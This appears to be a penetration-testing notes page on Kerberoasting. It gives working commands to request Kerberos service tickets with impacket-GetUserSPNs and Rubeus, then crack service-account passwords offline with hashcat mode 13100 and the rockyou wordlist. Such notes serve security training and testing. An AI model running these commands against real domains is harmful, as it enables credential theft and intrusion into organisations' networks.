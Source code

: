 # Kerberoasting

The service ticket is encrypted using the SPN's password hash. If we can request the ticket and decrypt it using brute force or guessing, we can use this information to crack the cleartext password of the service account. This technique is known as [_Kerberoasting_](https://blog.harmj0y.net/redteaming/kerberoasting-revisited/).

## Linux



{% code overflow="wrap" %}
```sh
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```
{% endcode %}

* &#x20;**-dc-ip:** IP of the domain controller
* **-request:** obtain the TGS and output them in a compatible format for Hashcat

## Windows

Kerberoasting using Rubeus:

```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

* **kerberoast:** launch kerberoasting technique&#x20;
* **/outfile:** file to store the resulting TGS-REP hash

As we execute Rubeus as an **authenticated domain user**, the tool will identify all SPNs linked with a domain user.

## Crack the hash

Identify hash mode for hashcat:

```sh
hashcat --help | grep -i "Kerberos"
```

Crack the hash:&#x20;

{% code overflow="wrap" %}
```sh
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}




